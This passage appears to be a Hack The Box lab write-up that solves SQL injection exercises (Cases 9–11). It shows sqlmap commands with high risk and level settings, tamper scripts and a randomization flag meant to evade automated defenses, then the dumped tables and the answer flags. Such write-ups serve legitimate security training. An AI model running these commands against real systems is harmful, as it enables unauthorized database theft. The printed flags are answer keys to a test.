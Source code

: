 We can use the `--randomize=uid` flag to randomize the value of a specific parameter, in this case we are randomizing the `uid` value, making it harder to detect for automated defenses.

We get this output:

```
Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+
```

Flag is `HTB{700_much_r4nd0mn355_f0r_my_74573}`

## Case 10
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204175417.png)

Let's use this:

```
python3 sqlmap.py -r Case10.txt -T flag10 --dump --risk=3 --level=5 --batch
```

Simple sqlmap command, no need to explain further, this is the output:

```
Database: testdb
Table: flag10
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{y37_4n07h3r_r4nd0m1z3} |
+----+----------------------------+
```

Flag is `HTB{y37_4n07h3r_r4nd0m1z3}`

## Case 11
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250204175426.png)

```
python3 sqlmap.py -r Case11.txt -T flag11 --dump --risk=3 --level=5 --batch --tamper=greatest,least --threads=10
```

We get this output:

```
Database: testdb
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+
```

Flag is `HTB{5p3c14l_ch4r5_n0_m0r3}`